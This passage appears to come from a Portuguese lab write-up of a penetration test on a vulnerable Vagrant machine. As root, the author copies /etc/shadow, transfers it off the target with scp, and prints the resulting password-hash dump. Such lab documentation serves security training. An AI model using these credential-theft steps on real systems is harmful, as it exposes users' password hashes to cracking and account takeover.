 ```bash
# whoami
root

# cp /etc/shadow /home/vagrant/shd.copy
# chown vagrant:vagrant /home/vagrant/shd.copy
```

**Explicação:** Copiei o arquivo shadow (que contém os hashes de senha) para o diretório do usuário vagrant com permissão adequada para leitura. Isso permite transferência via SCP.

### 4.2 Download via SCP

Utilizei SCP para transferir o arquivo do alvo para minha máquina:

```bash
scp vagrant@192.168.56.3:/home/vagrant/shd.copy /home/user
```

**Resultado obtido:**

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
vagrant@192.168.56.3's password:
shd.copy                                    100% 1841     2.4MB/s   00:00
```

**Explicação:** O arquivo foi transferido com sucesso. O aviso sobre pós-quantum cryptography é relevante apenas para dados de longa duração.

### 4.3 Análise do arquivo /etc/shadow

Após baixar, analisei o arquivo obtido:

```
root:!:18564:0:99999:7:::
daemon:*:16176:0:99999:7:::
bin:*:16176:0:99999:7:::
sys:*:16176:0:99999:7:::
sync:*:16176:0:99999:7:::
games:*:16176:0:99999:7:::
man:*:16176:0:99999:7:::
lp:*:16176:0:99999:7:::
mail:*:16176:0:99999:7:::
news:*:16176:0:99999:7:::
uucp:*:16176:0:99999:7:::
proxy:*:16176:0:99999:7:::
www-data:*:16176:0:99999:7:::
backup:*:16176:0:99999:7:::
list:*:16176:0:99999:7:::
irc:*:16176:0:99999:7:::
gnats:*:16176:0:99999:7:::
nobody:*:16176:0:99999:7:::
libuuid:!:16176:0:99999:7:::
syslog:*:18564:0:99999:7:::
messagebus:*:18564:0:99999:7:::
sshd:*:18564:0:99999:7:::
statd:*:18564:0:99999:7:::
vagrant:$6$NABMNgxO$T2lvEhArjOImjvROySq8vka/r8MWhhzNgT3Z5FS1LcPS5D325ES
K5LjFJymb2jo/m4NmDg8aEl0TWWI3la.Y3/:18564:0:99999:7:::
dirmngr:*:18564:0:99999:7:::
leia_organa:$1$N6DIbGGZ$LpERCRfi8IXlNebhQuYLK/:18564:0:99999:7:::
luke_skywalker:$1$/7D55Ozb$Y/aKb.UNrDS2w7nZVq.Ll/:18564:0:99999:7:::
han_solo:$1$6jIF3qTC$7jEXfQsNENuWYeO6cK7m1.:18564:0:99999:7:::
artoo_detoo:$1$tfvzyRnv$mawnXAR4GgABt8rtn7Dfv.:18564:0:99999:7:::
c_three_pio:$1$lXx7tKuo$xuM4AxkByTUD78BaJdYdG.:18564:0:99999:7:::
```